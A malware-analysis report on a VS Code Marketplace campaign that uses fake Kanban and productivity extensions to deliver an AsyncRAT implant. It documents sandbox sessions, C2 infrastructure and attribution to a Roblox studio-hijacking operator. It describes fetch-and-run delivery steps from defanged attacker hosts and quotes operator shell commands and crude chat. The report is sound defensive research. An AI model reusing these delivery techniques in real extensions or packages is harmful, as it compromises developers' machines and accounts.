






Inside a 216-Extension VS Code Marketplace Campaign Delivering AsyncRAT
Lab Architecture & Unattended Execution Disclaimer
I was never at the keyboard during any of the detonations or sessions described in this report. All malware samples were executed inside an automated, unattended sandbox cluster. Telemetry, packet captures, process memory, and screen recordings were collected automatically and analyzed strictly after the fact. Any interactive activity inside the virtual machines, including remote desktop navigation, command execution, and chat conversations, was performed exclusively by the remote threat actors interacting with an unoccupied system.
Since at least May 2026, a small, hands-on crew has run an aggressive malware distribution campaign on the Visual Studio Code Marketplace targeting game developers and general software engineers. The campaign remains actively operational today: as recently as October 24, 2026, the operators were observed deploying fresh delivery hosts, re-arming extensions, and actively piloting live command-and-control sessions. Across six months, the operation has published 216 extension versions under 201 distinct publisher accounts, rotating from bundled npm post-install scripts to a fleet of 150 empty "sleeper" extensions and an Ed25519-signed script-delivery protocol.
Unlike most malicious VS Code extension campaigns that run an automated infostealer and exit, this group deploys a ConfuserEx-packed AsyncRAT implant (internal assembly name Xdggym) and pilots infected machines manually. My sandbox recorded 64 detonations that reached their command-and-control (C2) servers on TCP port 56001. In 13 of those sessions, an operator at the panel pushed interactive plugins to the host. In another 12 runs, an automated server rule recognized the sandbox hardware ID and killed the implant within three seconds of check-in.
During four of the interactive sessions, the operators opened chat windows or dialog boxes on the sandbox desktop. On Saturday, October 24, 2026, within 35 seconds of a batch stager from p[e]bblexvale[.]com/p[x]bbzVkahQ5VT.bat injecting the RAT into explorer.exe and connecting to 216[.]107[.]137[.]77:56001, the operator opened a hidden desktop (HVNC) shell and launched a window titled Chat with H@cker:
When nobody replied in the chat window, the operator opened cmd.exe from the injected process, ran a PowerShell command to pop up a system MessageBox greeting my older sandbox username (sirclicksalot) by name, and at 17:33:31 UTC clicked IDA Free 9.1 on the taskbar before disconnecting.


Chat with H@cker and triggers a PowerShell MessageBox reading "hello sirclicksalot what do u want". Right (17:33:31 UTC): The operator launches IDA Free 9.1 from the sandbox taskbar before dropping the connection.
While taunting the lab and reusing a single cPanel server (192[.]142[.]48[.]98) for over seven weeks, the operators linked their stager domains directly to a self-published threat actor persona (the handles, Discord, and Roblox accounts are visible in the screenshots), two compromised Roblox game studios (Dark Cube Studio and Second Games), an active Rolimon's trading account, and a credit-card fraud shop (dump-central[.]cc).
1. Detecting Hands-on-Keyboard Sessions via the Registry Plugin Cache
Clarification on "Hands-on-Keyboard": Throughout this report, the term "hands-on-keyboard" refers exclusively to the adversary's hands on the keyboard. The analysis lab operates completely unattended without human intervention. The operator's mouse clicks, window launches, and keystrokes were delivered remotely over AsyncRAT plugins and captured by automated background telemetry for post-run forensic analysis.
The campaign's payload is a 412 KB .NET executable with the internal assembly name Xdggym (SHA-256: 252d53dcbb481b1d2f60a874f83fab057c3e69d7e0f04b2115c70df51cc98c62), a ConfuserEx-packed build from the AsyncRAT / Quasar lineage (consistent with AsyncRAT, DcRat, or VenomRAT). Its configuration exists only on the heap at runtime, where heap extraction recovered both the C2 endpoints and the pinned server certificate.
Implant Profile: The Xdggym AsyncRAT Build
- Transport & JA3: TLS over TCP port
56001(with56002and56003as fallbacks in earlier waves) using length-prefixed, GZip-compressed frames and a 5-second beacon interval. The client handshake produces JA3 fingerprintfc54e0d16d9764783542f0146a98b300, the standard signature for default AsyncRAT .NET sockets tracked by Abuse.ch SSLBL since 2021. - Pinned Certificate: All three C2 servers present the same self-signed certificate
CN=Hlkfsmwtezz(SHA-256:8ae8963b7158976f16b7525cbed1ca910dc39800e7660bb7a1e2611ce264f59e). - Check-in Reconnaissance: Once injected into
explorer.exe, the implant runs 13 WMIManagementObjectSearcherqueries, enumerates running processes, checks antivirus and administrator status, and captures a desktop screenshot roughly 40 seconds after connecting on engaged sessions. - Registry Plugin Cache: Interactive features (Remote Desktop, HVNC, Chat, Remote Shell, and Power/Uninstall) are not compiled into the base binary. When an operator selects a tool on the panel, the server streams a compiled .NET DLL over TLS, and the client caches it under
HKCU\Software\<32-hex MD5 HWID>\<32-hex plugin hash>.
Because every sandbox VM boots from a clean snapshot where HKCU\Software\<HWID> does not exist, any registry write under that key means the C2 server actively pushed a plugin during that run. Across the 64 runs that reached port 56001, the registry telemetry split into three groups:
- ~40 idle check-ins: The implant connected, completed its initial WMI inventory, and never wrote a plugin key. Nobody interacted with the session.
- 12 automated blocklist kills (September 20, 16:54 UTC to September 21, 15:52 UTC): Within 1 to 3 seconds of connecting (at all hours of the day), the server pushed plugin
ab389ed6431d49986712b549511df12f, which immediately uninstalled the client and dropped the connection. Because the RAT derives its 32-hex victim ID from hardware and user attributes, the ID survived VM snapshot reverts, allowing the operators to add my sandbox IDs to an automated kill rule within 12 days of first contact. - 13 hands-on operator sessions: An operator manually pushed Remote Desktop, HVNC, Chat, or Shell plugins to inspect or interact with the sandbox.
Observed Panel Plugins and Host Actions
The RAT names each registry value after the MD5 hash of the plugin binary. Comparing the timestamp of each registry write against process creation and window events within the following 0 to 2 seconds identifies the role of 15 of the 18 plugins observed across September and October 2026:
| Plugin Hash | Dates Seen | Inferred Role | Host Activity Within 0 to 2 Seconds of Arrival |
|---|---|---|---|
| 3d576a5f698f86c72d046f424a8a41b3 | Oct 02, Oct 06 | Remote Desktop | Visible desktop control, with the operator launching chrome.exe and Code.exe and types into local windows. |
| 00e41f4a0fd50dfb83b01be06b3cc108 | Oct 06 | Chat | Arrives 4 seconds before the WinForms chat window (riched20.dll) opens as "Chat with SirRatter" and "Chat with SirFucksMotherAlot". |
| 28fda9a6bb11be6cddc7cd81623089e1 | Oct 02, Oct 06 | HVNC (Hidden Desktop) | Arrives 1 second before a second explorer.exe shell spawns on a hidden desktop where VS Code is opened out of view of the screen recorder. |
| 650d64fca9a24713b07f520d056527f1 | Oct 02, Oct 05, Oct 06 | Power / Uninstall | Arrives in the same second as cmd.exe /c shutDown /s /t 0 or Unregister-ScheduledTask. |
| e9c00d25ff70086851b293e3970b31db | Oct 05 | Unknown | Arrives 2 seconds before notepad.exe opens the RAT's local persistence script (gRpp.vbs) from the injected shell. |
| 61d09b0898632bc8763c32c1e4bdf97d | Oct 24 (3 runs) | Remote Desktop / Info (New Set) | First plugin pushed across all three Oct 24 sessions (13 to 23 seconds after connect). |
| a9bc6d2c639b7f45e53025ff36ca6100 | Oct 24 | HVNC (New Set) | Arrives in the same second as a secondary hidden-desktop explorer.exe process. |
| db9bb008c09219a6f8e86cfa6ab979fe | Oct 24 | Chat (New Set) | Arrives 10 seconds before the "Chat with H@cker" window opens. |
| c3d90e0d0743ee7675888c4f8ac51040 | Oct 24 | Remote Shell (New Set) | Arrives 2 seconds before cmd.exe spawns from injected explorer.exe to run the PowerShell MessageBox command. |
| 2a3bd460ab14441e2000a95636d6598a | Oct 24 | Power / Uninstall (New Set) | Arrives in the same second as Unregister-ScheduledTask "Explorer". |
| e7177f2fa162a204ff26ab11a7017e4d | Oct 24 (2 runs) | Unknown (New Set) | Pushed alongside HVNC and Remote Shell during the Oct 24 sessions. |
| ba44ffdc62eb5b98e94cef1f29cff7bb | Sep 08 | HVNC (Wave-1 Set) | Secondary explorer.exe spawns 1 second after arrival (first recorded hands-on session, HypeShowG.fastmusicgen). |
| a4a6bb35b4798b10f49c8f85bd7b221b | Sep 08 | Wave-1 Set | Pushed alongside ba44ffdc62eb5b98e94cef1f29cff7bb and 2f4e7b6712acde4bae5a39d59ed74585. |
| 2f4e7b6712acde4bae5a39d59ed74585 | Sep 08 | Wave-1 Set | Pushed during the September 8 hands-on session. |
| 51d83519dadcedc1d2aa12dc0ce664d6 | Sep 15 to Sep 21 | Wave-1 Set | Shared across both 216[.]107[.]139[.]88 and 185[.]94[.]29[.]79 within days. |
| da67e64cd37b841acc0fe6920c872b0d | Sep 15 to Sep 21 | HVNC (Wave-1 Set) | Secondary explorer.exe spawns in the same second. |
| 795f12eb5fbd41ac7faaed42c0860246 | Sep 15 to Sep 21 | Wave-1 Set | Pushed during the PhanBanLLC.BoardlyUp session on September 21. |
| ab389ed6431d49986712b549511df12f | Sep 15 to Sep 21 | Power / Uninstall (Wave-1 Set) | Triggers immediate uninstall or shutdown, and was also sent automatically within 1 to 3 seconds to blocklisted sandbox HWIDs. |
Every plugin hash changed between October 6 and October 24, coinciding with a payload size shift from roughly 432 KB to 300,439 bytes and indicating a panel rebuild or fork update.
2. Live Chat Transcripts and Operator Behavior
Important Disclaimer: Both Sides of These Chats Were Typed by the Threat Actor
No human researcher participated in these chat conversations. I was never at the keyboard during these sessions. I only discovered these bizarre dialogues when reviewing the automated sandbox desktop recordings and hypervisor logs after the virtual machines had already shut down and reverted.
Proxmox hypervisor task logs confirm that zero console sessions were active, the automated execution harness contains no interactive typing capabilities, and no inbound RDP was opened by lab staff. In the AsyncRAT chat window on the guest desktop, the local input box defaults to the label "Me:". Because the VM was running unattended with no analyst present, the threat actor used an active Remote Desktop window to personally type into this local box. Every character in these transcripts arrived from the C2 connection, with the operator puppeting both sides of the exchange.
On October 6, 2026, between 02:05 and 02:28 UTC, two batch droppers (xqbiw5s4j2.bat and jmhu0sljrl.bat) connected to 216[.]107[.]137[.]77:56001 during unattended sandbox runs. In both sessions, the C2 server pushed Remote Desktop (3d576a5f698f86c72d046f424a8a41b3), HVNC (28fda9a6bb11be6cddc7cd81623089e1), and Chat (00e41f4a0fd50dfb83b01be06b3cc108).
Every line in both transcripts came through the RAT connection. The hypervisor task log confirmed no console session was open on either VM, the batch detonation harness has no keystroke-injection path, and no guest RDP session was active. The lines prefixed with "Me:" were typed into the victim-side input box on the desktop over the RAT's Remote Desktop plugin while the chat window was open.
During this session, the operator also opened Chrome on the visible desktop, navigated to pornhub[.]com and a nubilefilms[.]com sign-up page, dragged the chat window beside the browser, and immediately after the operator-handle exchange (visible in the screenshot) and the subsequent "what the fuckk" reaction, sent the power plugin and ran cmd /c shutDown /s /t 0. Six minutes later, a second session connected under the handle SirFucksMotherAlot (mocking my sandbox username sirclicksalot), opened VS Code on a hidden HVNC desktop, and typed another two-sided exchange:


SirRatter over Remote Desktop, reacting to the handle name-drop (visible in the screenshot) with "what the fuckk" moments before shutting down the VM. Right: The operator typing into SirFucksMotherAlot referencing "the roblox devfourm posts" (referencing community exposés of the operator's dev-hitting spree like Blitfum's video investigation) and "Andrej". All sessions were completely unattended and analyzed after the fact.Interpreting the Two-Sided Chat Telemetry
Because the analysis VM was running completely unattended with no researcher at the console, all lines arrived from the C2 server. The operators typed humiliating or theatrical lines in the victim's voice ("cs im gay", "We wanna make visaul studio a better place", "I am your god from now on") while leaving an adult sign-up page on screen for my screenshot recorder, whether those transcripts represent one operator typing both sides as theater for the analyst or two co-operators sharing the same AsyncRAT panel is unresolved:
- Two panel operators overlapping: In AsyncRAT, multiple operators can share one server panel. If one operator opened the Chat window as
SirRatterwhile a second crew member already had the Remote Desktop window open on the same VM, the second operator typing the primary actor's handle (visible in the screenshot) into the victim box to prank his co-operator explains why"Whos we?"and"what the fuckk"read like genuine surprise, followed by an immediate forced shutdown. Likewise,"Tell Andrej I said Welcome"reads as one person addressing a third party through the chat log. - One operator staging a transcript for the sandbox logs: Alternatively, a single operator who recognized the analysis VM may have typed both sides to mock the researchers they believed were reviewing the screenshots (naming
"abby","john", and"Andrej"). - Why the attribution lead holds either way: Regardless of whether one operator typed both sides or a co-operator typed the
"Me:"lines over Remote Desktop, the operator handle was introduced entirely from the C2 connection on October 6, eighteen days before the crew registered the matching staging domain and served droppers prefixed with that same handle (see screenshots).
Across all nine hands-on sessions, operator timestamps clustered strictly between 13:40 and 02:42 UTC (with zero activity between 03:00 and 13:00 UTC), and 156 of the 216 Marketplace versions were published in two evening windows (21:00 to 22:00 UTC and 01:00 to 02:00 UTC), fitting US afternoon and evening hours (09:00 to 23:00 EDT), weekends included. Whenever they recognized the sandbox, they never ran credential dumpers, lsass access, or whoami / systeminfo commands. Instead, they inspected VS Code or IDA Free, taunted the lab, and uninstalled or shut the VM down within 1 to 10 minutes.
Decrypted TLS 1.3 Session & cPanel Verification (LKKStuner.linkintree, October 24, 2026)
During the 15:14 UTC detonation of LKKStuner.linkintree (version 1.0.2) on October 24, the sandbox SSLKEYLOGFILE recorder (keylogs/1792853892145.log, 148,958 bytes, alongside keylogs/1792850105388.log, 4,690 bytes from the studiotask-app run) captured the TLS 1.3 session secrets across 190 encrypted connections. Decrypting the PCAP separated the malware's automated traffic from my own interactive browser check of the stager IP during that run:
- Malware Stager Pull & C2 Stream: The extension fetched
GET hxxp://p[e]bblexvale[.]com/p[x]bbzVkahQ5VT.batfrom192[.]142[.]48[.]98twice with an empty User-Agent string (the first TCP stream stalled after 12 packets, while the second downloaded the 490 KB batch file across 386 packets) and then opened the pinned-certificate AsyncRAT stream to216[.]107[.]137[.]77:56001. - Operator Browser Check of
192[.]142[.]48[.]98: The decrypted PCAP reveals that the remote operator personally typed the raw stager IP192[.]142[.]48[.]98into the guest machine's Chrome address bar over their Remote Desktop connection (chrome.exe, PID 6456). Omnibox autocomplete queries fired for192[.]142[.]48[.]98and192[.]142[.]48[.]98:before loadinghxxp://192[.]142[.]48[.]98/to inspect their own server. - cPanel Default Page: Accessing the IP without a virtual-host header returned a cPanel default landing page (
/cgi-sys/defaultwebpage.cgi,/img-sys/powered_by_cpanel.svg,IP_changed.png,server_misconfigured.png, and the cPanelwsidchk/pdataredirect), followed by a click-through tohxxps://www[.]cpanel[.]net/.
This confirms that 192[.]142[.]48[.]98 (which hosts p[e]bblexvale[.]com, p[x]bble[.]com, and dump-central[.]cc) is a cPanel server, while process correlation separates the RAT traffic on port 56001 from my browser check and from background sync traffic generated by pre-installed wallet extensions on the golden VM image (sanity-proxy-v2[.]phantom[.]app, data[.]phantom[.]app, and ph[.]xdefi[.]services).
3. Threat Actor Persona, Studio Takeovers, and dump-central[.]cc
On September 18, 2026, during a detonation of FontingFonts.monkeyfont, the extension requested its second-stage batch file (b1f87428620729e52.bat) from p[x]bble[.]com. Instead of the batch script, the server returned a 3,941-byte HTML holding page advertising services as a verified Roblox "dev hitter" and claiming ownership of multiple compromised game studios (the full self-described bio, handles, and studio claims are visible in the accompanying screenshots).
In the Roblox underground, a "dev hitter" compromises game developers to steal their studio groups, games, and Robux. The live page linked directly to the operator's Discord user ID (1499262528717324413), Telegram profile, Roblox profile, and the credit-card fraud storefront www[.]dump-central[.]cc (all specific handles and usernames are visible in the screenshots below).
Five independent data points connect this self-published persona to the malware campaign:
- Telegram Profile: The operator's Telegram account (shown in the left screenshot below) describes its owner as a
"PHP, JS, ASP Dev", lists their Discord handle and Roblox username, and explicitly claims ownership of bothdump-central[.]ccandp[x]bble[.]com. That self-described web stack matches the division of labor seen in the malware: custom JavaScript extensions and server-side hook APIs paired with an off-the-shelf .NET RAT. On October 24, the stager hosted onp[e]bblexvale[.]comdelivered a dropper prefixed with this exact handle (visible in the forensic file table). - Dark Cube Studio Takeover (July 31, 2026): A YouTube community post by Dark Cube Studio creator "It's Steven" (
youtube[.]com/post/UgkxK3NKfyi2KVWwl_JowtPmPwBdU2DnyI1E) states that the studio's Roblox group was hijacked on July 31, 2026 by an account matching the operator's handle (visible in the right screenshot below), corroborating the trophy claim on the holding page. - Alias Rotation and Second Games: After Dark Cube Studio publicized the takeover, the live text on the holding page rotated to claim ownership of "Second Games Verified on Roblox" under an updated username (visible in archive captures).
- Rolimon's Fencing and Shared Hosting on
192[.]142[.]48[.]98: The operator maintained an active trading profile on Rolimon's under the same handle to trade high-value Roblox items. At the network layer, Sysmon DNS telemetry confirmed thatdump-central[.]cc("CC Dump Central", a carding storefront with a footer credited to the operator) resolves to192[.]142[.]48[.]98, the same server hostingp[x]bble[.]com(September 8 to 18) andp[e]bblexvale[.]com(October 24). - Dev-Hitting Spree, Seven Burgers Hijack, and Blitfum's Video Exposure: Beyond Dark Cube Studio, the operator's targeted attacks against game creators were thoroughly investigated and exposed by Roblox content creator Blitfum in a dedicated report: "he STOLE a bunch of games, including one of my favorites..." (YouTube). The investigation documents how developer "7", owner of the studio group Seven Burgers and creator of the fighting game Something Something Battlegrounds (SSBG), was socially engineered via direct message into executing a malicious info-stealer disguised as a custom developer tool. The malware harvested active browser login cookies to bypass two-factor authentication, after which the hijacked studio and game assets were transferred to the threat actor and rebranded under "Pixel Studios". This directly corroborates the campaign's staging infrastructure on
pixelrbx[.]comandpixelstudiodev[.]com. Crucially, it also explains the operator's scoff during the October 6 live C2 chat on VM 408 ("all you did was find the roblox devfourm posts / ur not special"): the operator was already acutely aware that their dev-hitting spree and studio thefts had been exposed across the Roblox DevForum and YouTube.


dump-central[.]cc, p[x]bble[.]com, and associated gaming handles. Right: The July 31, 2026 YouTube community post by "It's Steven" confirming the takeover of Dark Cube Studio by the operator's handle.4. Campaign Evolution Across 216 Extension Versions
Across the entire dataset from May 5 to October 24, 2026, 216 extension versions across 201 publisher IDs match the campaign's code or infrastructure indicators. At the time of analysis, 70 of those versions appeared on Microsoft's removal list as Malware and 8 as Untrustworthy, leaving 138 versions (64%) unlisted. Armed extensions typically show 1,100 to 2,500 installs (consistent with automated install inflation), while the oldest package, Robloxboard.roblox-board (published May 5, 2026), reached 8,813 installs.
- Wave 1 (May to September 2026, Bundled npm Droppers and Direct Batch Pulls): The earliest package,
Robloxboard.roblox-board(versions 2.0.1 and 4.0.1), used"activationEvents": ["*"]to fetchhxxps://giantapplebees[.]shop/555.jsto%TEMP%\nice.jsand run it viacscript.exe. From June 6 to August 18, the crew published 15 Kanban and Trello look-alikes across 11 publishers (StudioBoard.studioboardthroughGRSoftworks.Brux-Board) bundling a localnode_modules/boardflow/install.jsscript that curled a batch dropper from rotating domains:pixelrbx[.]com(/846385443) →giantapplebees[.]shop→elrbx[.]com. In early September, further packages (BadginLNN.badgerposts,FontingFonts.monkeyfont,MusicCreates.musicicgen,HypeShowG.fastmusicgen,TrellKhan.devora) pulled batch stagers directly fromp[x]bble[.]comandlnterstudios[.]org. - Wave 2 (September 23 to October 23, 2026, The 150-Stub Sleeper Fleet and Canvas Hooks): On September 23 and 24, the crew used an automated script to publish 152 extension versions (150 empty
v0.0.1placeholder stubs of 1,380 to 1,430 bytes, each under its own single-use publisher account) in two bursts: 50 stubs in 20 minutes on September 23 (21:17 to 21:37 UTC, 2.5 stubs/min) and 99 stubs in 21 minutes on September 24 (01:06 to 01:27 UTC, 4.7 stubs/min), plus one final stub shortly after. Publishing code-less stubs allowed the accounts to clear initial Marketplace checks and age before selected packages (framemap-dev,studiodocs-app,kanbantask-prod,trellisboard-app,boardhub-dev,flowcanvas-dev,studiotask-app) were updated to 33 to 40 KB payloads containing the Canvas Hook engine. - Wave 3 (October 24, 2026, Browser Bot Gating and Rebuilt RAT Suite): On October 24, the operators pushed version 1.2.1 of
alphasolutions.studiotask-appand version 1.0.2 ofLKKStuner.linkintree, placedp[e]bblexvale[.]com/p[x]bbzVkahQ5VT.batbehind a JavaScript browser check (so headless Nodehttp.getrequests received only an HTML challenge while real browsers received the.bat), and deployed a 300,439-byte Donut build with a refreshed set of panel plugins.
Naming Conventions: Productivity Camouflage vs. the Roblox Tell
A consistent behavioral split runs through the campaign's naming: victim-facing extension titles use corporate productivity themes, while backend domains and handles come from the Roblox exploit scene.
- Marketplace Camouflage: Wave-1 and Wave-2 extensions imitate Trello, Kanban, and whiteboard tools (
studioboard,boardwalk,FocusDeck,LineDeck,SlixBoard,Brux-Board,framemap-dev,kanbantask-prod) under synthetic corporate publisher names (...Softworks,...PLC,ByteLabs,pulsedigital,hiveridge,meridianbyte) or Atlassian typosquats (atIassiansum,AtIassianlm). One personal-style publisher ID stands out:JohnFMerondic.drift-board, notable givenSirRatter's reference to "john" in chat, though no technical link connects them. - Backend Domains and Handles: By contrast, the infrastructure repeatedly uses Roblox terminology:
pixelrbx[.]comandelrbx[.]com(rbxfor Roblox/Robux),managerblx123(blxfor blox),realism-hub[.]com("hub" from Roblox script-executor hubs),rogiant[.]com(thero-prefix), and the matching infrastructure persona (handles visible in screenshots). - Dropper Filenames: Confirmed batch stagers use per-build mixed-case alphanumeric strings to avoid static filename rules:
p[x]bbzVkahQ5VT.bat,b1f87428620729e52.bat,b4dfbba06ccbh.bat,ghtwy6xvtu.bat,jmhu0sljrl.bat,qu1wd4klqw.bat,qvz2wkoybb6tp4wt.bat, andxqbiw5s4j2.bat.
The "Dev Hitter" Vector: Targeting Roblox Creators & Hijacking Game Studios
While the campaign created 150 empty sleeper extensions and dozens of generic Kanban clones to build domain reputation and evade marketplace moderation, forensic cross-referencing confirms that the sharp end of the operation was an active "dev hitter" campaign targeting the Roblox game development community. In the Roblox creator ecosystem, a "dev hitter" specializes in compromising developers to steal their game source code, session credentials, and ownership of lucrative studio groups. On their stager portal (p[x]bble[.]com), the operator openly advertised this exact service (visible in the screenshot): "Come work with the #1 verified dev hitter in com."
Why VS Code? Weaponizing the Modern Roblox Stack: Serious Roblox game studios do not code inside the basic Roblox Studio script editor. Instead, professional teams write Luau inside Visual Studio Code and synchronize their scripts into the engine in real time using tools like Rojo, while managing tasks with external Kanban boards. Seeding malicious extensions on the official Microsoft Visual Studio Code Marketplace granted the actor implicit platform trust. Furthermore, VS Code extension lifecycle hooks (activationEvents: ["*"] or onStartupFinished) guaranteed that the AsyncRAT loader executed silently on IDE launch without generating browser download alerts.
